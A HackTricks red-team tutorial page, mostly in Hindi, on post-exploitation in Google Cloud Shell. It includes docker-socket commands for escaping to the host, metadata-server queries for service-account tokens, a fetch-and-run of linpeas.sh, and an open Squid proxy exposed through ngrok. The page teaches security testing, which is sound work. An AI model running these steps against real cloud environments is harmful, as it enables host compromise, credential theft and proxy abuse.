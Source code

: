 # GCP - Cloud Shell Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud Shell

Cloud Shell के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Container Escape

ध्यान दें कि Google Cloud Shell एक कंटेनर के अंदर चलता है, आप **आसानी से होस्ट पर भाग सकते हैं** ऐसा करने के लिए: 

{% code overflow="wrap" %}
```bash
sudo docker -H unix:///google/host/var/run/docker.sock pull alpine:latest
sudo docker -H unix:///google/host/var/run/docker.sock run -d -it --name escaper -v "/proc:/host/proc" -v "/sys:/host/sys" -v "/:/rootfs" --network=host --privileged=true --cap-add=ALL alpine:latest
sudo docker -H unix:///google/host/var/run/docker.sock start escaper
sudo docker -H unix:///google/host/var/run/docker.sock exec -it escaper /bin/sh
```
{% endcode %}

यह गूगल द्वारा एक कमजोरियों के रूप में नहीं माना जाता है, लेकिन यह आपको उस वातावरण में हो रही घटनाओं का व्यापक दृष्टिकोण देता है।

इसके अलावा, ध्यान दें कि होस्ट से आप एक सेवा खाता टोकन पा सकते हैं:

{% code overflow="wrap" %}
```bash
wget -q -O - --header "X-Google-Metadata-Request: True" "http://metadata/computeMetadata/v1/instance/service-accounts/"
default/
vms-cs-europe-west1-iuzs@m76c8cac3f3880018-tp.iam.gserviceaccount.com/
```
{% endcode %}

निम्नलिखित स्कोप के साथ:

{% code overflow="wrap" %}
```bash
wget -q -O - --header "X-Google-Metadata-Request: True" "http://metadata/computeMetadata/v1/instance/service-accounts/vms-cs-europe-west1-iuzs@m76c8cac3f3880018-tp.iam.gserviceaccount.com/scopes"

https://www.googleapis.com/auth/devstorage.read_only
https://www.googleapis.com/auth/logging.write
https://www.googleapis.com/auth/monitoring.write
```
{% endcode %}

LinPEAS के साथ मेटाडेटा की गणना करें:

{% code overflow="wrap" %}
```bash
cd /tmp
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
sh linpeas.sh -o cloud
```
{% endcode %}

[https://github.com/carlospolop/bf\_my\_gcp\_permissions](https://github.com/carlospolop/bf\_my\_gcp\_permissions) का उपयोग करने के बाद सेवा खाता के टोकन के साथ **कोई अनुमति नहीं मिली**...

### इसे प्रॉक्सी के रूप में उपयोग करें

यदि आप अपने गूगल क्लाउड शेल इंस्टेंस का प्रॉक्सी के रूप में उपयोग करना चाहते हैं, तो आपको निम्नलिखित कमांड चलाने की आवश्यकता है (या उन्हें .bashrc फ़ाइल में डालें):
```bash
sudo apt install -y squid
```
बस आपको बताने के लिए कि Squid एक http प्रॉक्सी सर्वर है। एक **squid.conf** फ़ाइल निम्नलिखित सेटिंग्स के साथ बनाएं:
```bash
http_port 3128
cache_dir /var/cache/squid 100 16 256
acl all src 0.0.0.0/0
http_access allow all
```
**squid.conf** फ़ाइल को **/etc/squid** में कॉपी करें
```bash
sudo cp squid.conf /etc/squid
```
अंत में स्क्विड सेवा चलाएँ:
```bash
sudo service squid start
```
ngrok का उपयोग करें ताकि प्रॉक्सी बाहर से उपलब्ध हो सके:
```bash
./ngrok tcp 3128
```
tcp:// यूआरएल चलाने के बाद कॉपी करें। यदि आप ब्राउज़र से प्रॉक्सी चलाना चाहते हैं, तो tcp:// भाग और पोर्ट को हटा देना और अपने ब्राउज़र प्रॉक्सी सेटिंग्स के पोर्ट फ़ील्ड में पोर्ट डालना सुझावित है (squid एक http प्रॉक्सी सर्वर है)।

शुरुआत में बेहतर उपयोग के लिए .bashrc फ़ाइल में निम्नलिखित पंक्तियाँ होनी चाहिए:
```bash
sudo apt install -y squid
sudo cp squid.conf /etc/squid/
sudo service squid start
cd ngrok;./ngrok tcp 3128
```
The instructions were copied from [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key). उस पृष्ठ पर Cloud Shell में किसी भी प्रकार的软件 (डेटाबेस और यहां तक कि विंडोज) चलाने के लिए अन्य पागल विचारों की जांच करें।

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
